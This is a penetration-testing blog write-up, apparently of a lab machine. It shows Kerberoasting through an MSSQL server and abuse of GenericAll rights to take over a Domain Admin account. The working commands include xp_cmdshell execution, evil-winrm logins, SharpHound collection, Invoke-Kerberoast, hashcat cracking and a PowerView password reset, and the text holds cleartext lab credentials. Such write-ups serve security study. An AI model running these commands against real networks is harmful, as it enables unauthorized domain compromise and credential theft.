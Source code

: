 ```yaml
---
title: Kerberoasting Using Mssql Server [ Abusing GenericAll ] 
author: r0b0tG4nG
date: 2022-01-13 13:33:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, hashcat, xp_cmdshell, powerview, evil-winrm, kerberoast, bloodhound, nmap]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/149357946-9fd46ceb-e42d-4d76-9b0d-bc2a474ec637.png)
<br><br>

**> Information Gathering**<br>

From The previous writeup on <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">Abusing MSSQL Linked Servers</a>, we found credentials on the target. In this chapter, we will look at how we can perform kerberoast attacks through `MSSQL Server`. During our previous engagement, we found credentials using <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>.<br>
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```
<br>

The question is what can we do with this credential?? Well, we are not out of options. I checked the ipaddress of the target `MSSQL Server` is running on using `sp_execute_external_script` command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("ipconfig");'; `. Looking at `IPV4` IP address, there was no service that we could connect to remotely with the credentials we have. So, i decided to dive deep into the `IPV6` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357971-62ddb9d1-f1a5-467f-93ac-af21677c3a47.png)<br>

A quick nmap scan was performed on the `IPV6` IP address. Port 5985 (Windows Remote Management) was open. Good news at last all we need to do is add the `IPV6` IP address to `/etc/hosts` file `dead:beef::1001  targetipv6`. Henceforth, when i type `targetipv6` i am referring to `dead:beef::1001` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357995-64d905cf-e354-4354-99ad-3a9775f413bd.png)<br>

I connected to `WinRM` using <a href="https://github.com/Hackplayers/evil-winrm">evilwinrm</a> tool. The command executed to connect to `WinRM` was `evil-winrm -i targetipv6 -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358092-a9615c4f-e560-451f-96b4-ae37e846a737.png)<br>

Digging around using <a href="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS">winpeas</a> and some few post enumeration tools didn’t yield any positive results. So, i decided to enumerate the domain to find privilege escalation paths but i realized we can't query the domain from a
local administrator account from the errors i encountered.<br>
![image](https://user-images.githubusercontent.com/67085453/149358253-3b39b099-9097-4658-8f09-e777400dfa3c.png)<br>

However, the `SQL service account` can be use instead since service accounts
automatically impersonate the computer account, which are members of the domain and effectively a special type of user account. I logged into `MSSQL` using `impacket-mssqlclient` with the `SA` User we added in the <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">previous post</a> and enabled `xp_cmdshell` to query domain users with command `xp_cmdshell net users /domain`. <br>
![image](https://user-images.githubusercontent.com/67085453/149358283-48722ed2-2d42-4c46-9b73-80e9c1d1678f.png)<br>

`BloodHound` is an application developed with one purpose: to find relationships within an `Active Directory (AD) domain` to discover attack paths. With this said, we will grab `SharpHound.exe` from <a href="https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors">BloodHoundAD GitHub page</a>. Create the `C:\temp\` directory first then upload the `SharpHound.exe` to the target using our evil-winrm session.<br>
![image](https://user-images.githubusercontent.com/67085453/149358328-2fe15870-4bbe-43f8-bc1e-9e50ad550337.png)<br>

Then the next step is to collect all information about the `Active Directory (AD) domain` through mssql using the command `xp_cmdshell C:\temp\SharpHound.exe -C All --outputdirectory C:/temp`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358361-d447e6d1-62e4-4e3c-98f3-78da446f5abc.png)<br>

Once information about the target `Active Directory (AD) domain` is collected and saved into a zip file, we then download the zip file using evil-winrm download command.<br>
![image](https://user-images.githubusercontent.com/67085453/149358379-23531855-f919-42be-abd0-7901ccaa0c76.png)<br>

Install `BloodHound GUI` and upload the zip file you downloaded. *Note: you can install bloodhound GUI from* <a href="https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html">BloodHound Docs</a>.<br>
![image](https://user-images.githubusercontent.com/67085453/149358407-1dbcbc96-34e6-4b1f-9135-f80f70e22561.png)<br>

After uploading the zip file to bloodhound UI for visualization. We can use pre-built queries to find any quick `privilege escalation vectors`. Clicking on the `Shortest Paths to Domain Admins from Kerberoastable Users` entry shows the following.<br>
![image](https://user-images.githubusercontent.com/67085453/149358427-1558189b-5f46-4e29-adc6-79af19030266.png)<br>

The user `p00_adm` is a member of `help desk` and has `GenericAll privileges` on the `Domain Admins group`. This means that we can add any user to `Domain Admins` if we have `p00_adm credentials`. To accomplish this, we need to kerberoast the `p00_adm` user and try to crack his hash. We can use the `Invoke-Kerberoast.ps1` from <a href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1">EmpireProject GitHub page</a>.<br>

**> What is Kerberoasting??:** Kerberoasting is a post-exploitation attack that extracts service account credential hashes from Active Directory for offline cracking. It is used to crack a Kerberos (encrypted password) hash using brute force techniques. If successful, it can crack NTLM hashes in a few hours and provide the adversary with a clear-text password<br>

Download the `Invoke-Kerberoast.ps1` script, upload it to `C:\temp\` directory using `Evil-winrm` session like we did to the `SharpHHound.exe` binary. Once we have the `.ps1` uploaded, we can invoke our `kerberoast attack` through `MSSQL` using the command `xp_cmdshell powershell.exe -c "Import-Module C:\temp\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat hashcat"`<br>
![image](https://user-images.githubusercontent.com/67085453/149358471-724a69a4-5f19-4db5-be2e-87cdd9ea9f9b.png)<br>
![image](https://user-images.githubusercontent.com/67085453/149358487-e840b805-3f39-42e8-868b-9830dc3fd182.png)<br>

We found two hashes `p00_hr` & `p00_adm`. Keep in mind that we are after `p00_adm` user hash therefore i copied the `p00_adm` user hash to a file and made sure that i deleted the spaces and empty lines from the hash. `p00_adm`. The hash can be cracked using Hashcat command `hashcat -m 13100 hashes /usr/share/seclists/Passwords/Keyboard-Combinations.txt --force`. Lucky us! we were able to crack the password. *Note: this took a very long time since i had to try a variety of wordlist until i got the  password* The password for `p00_adm` is `ZQ!5t4r`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358516-37aeb491-2817-4814-b520-3069a62812aa.png)<br>

What else now?? well we have `p00_adm` user plaintext password and we can `impersonate` the `p00_adm` with the help of `PowerView`. How do we achieve this? first let's grab `PowerView.ps1` from <a href="https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView">PowerShellEmpire GitHub page</a> and upload it to the target using evil-winrm. Once The `PowerView.ps1` script is uploaded, the next thing to do is to import the file so we will have access to `PowerView` extended commands like `Add-DomainGroupMember`, `Get-DomainComputer`.....etc.<br>

All done?? what's next?? We need to use a credential object to impersonate `p00_adm` user. Execute this command<br>
```shell
$user='p00_adm'
$pass='ZQ!5t4r'
$p= ConvertTo-SecureString -AsPlainText $pass -force
$cred=New-Object System.Management.Automation.PSCredential -ArgumentList $user,$p
```

![image](https://user-images.githubusercontent.com/67085453/149358621-d2409d18-8cbb-497a-86ed-434add3a3487.png)<br>

After impersonating `p00_adm` user, i still had issues logging in so i searched for `Domain Admins` on the target using the command `get-netuser -DomainController dc -Credential $cred`. From this, i found out the user `mr3ks` is part of the `Domain Admins Group`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358652-d8e5ee90-c4c7-4715-a148-6354cc374103.png)<br>

**> Abusing GenericALL**<br>

Looking back at the `BloodHound GUI`, to abuse `GenericAll`, i right-clicked on the `GenericAll` line, selected `help` and then `Abuse`. This Feature of `BloodHound GUI` explains how we can abuse this feature.<br>
![image](https://user-images.githubusercontent.com/67085453/149358680-5e81be5e-41ea-4e0e-8124-93c2e4e41b20.png)<br>

What can we do now? well, we can change the credentials for `mr3ks` user. The question is how do we do that?? remember i just said `BloodHound GUI` explains everything. I executed this command<br>
```shell
$Username = 'p00_adm'
$Password = 'ZQ!5t4r'
$Connect = ConvertTo-SecureString -AsPlainText $Password -Force
$Auth = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$Connect
Set-DomainUserPassword -Identity mr3ks -Password $Connect -Credential $Auth
```

![image](https://user-images.githubusercontent.com/67085453/149358712-4a44c04c-4ece-40de-8acf-b1a96dd91615.png)<br>

We encountered no errors that's good news to the eyes. Let's try to connect to the target through the target `IPV6` `Win-RM` service.  To achieve this, i executed `evil-winrm -i targetipv6 -u mr3ks -p 'ZQ!5t4r'`. Hehehe we are logged in and we have fully compromised a `Domain Admin` account.<br>
![image](https://user-images.githubusercontent.com/67085453/149358731-8f998768-a5e4-4d5a-982b-bc62e01cb4ef.png)<br>


I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>

